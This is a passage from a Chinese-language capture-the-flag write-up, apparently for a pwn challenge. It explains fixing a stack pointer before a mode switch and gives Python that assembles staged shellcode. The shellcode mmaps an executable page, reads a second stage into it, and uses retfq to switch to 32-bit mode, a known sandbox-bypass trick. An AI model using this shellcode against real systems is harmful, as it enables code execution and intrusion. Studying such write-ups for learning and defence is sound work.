 于是我们直接跳过去, 遇到的问题有两个, 

一是当前要运行的汇编代码不正确, 这是因为我输入了一堆'a', 后续写入shellcode即可, 

二是栈空间出错, 原本是`rsp = 0x7fffe1161a3e`但是32位变成`esp = 0xe1161a4e` , 所以我们要先调整一下rsp即可, 

![image-20210825175516680](https://i.loli.net/2021/08/25/OqeDF2UkG3yAgsE.png)

修改后第一段shellcode:

```python
# read(0, 0x40404040, 0x1010) ax=0
read = f('''
mov rsi, 0x40404040;
pushw 0x1010;
pop rdx;
xor rdi, rdi;
xor rax, rax;
syscall;
''')
print("read: ", read)

# mmap(0x40404040, 0xff, 7, 34, 0, 0) ax=9
mmap = f('''
mov rdi, 0x40404040;
push 0x7f;
pop rsi;
push 7;
pop rdx;
push 34;
pop rcx;
xor r8, r8;
xor r9, r9;
push 9;
pop rax;
syscall;
''')
print("mmap: ", mmap)

rsp = f('''
mov rsp, 0x40404f40
''')
print("rsp", rsp)

to32 = f('''
push 0x23;
push 0x40404040;
retfq
''')
print("to32", to32)

sh = mmap + read + rsp + to32
```
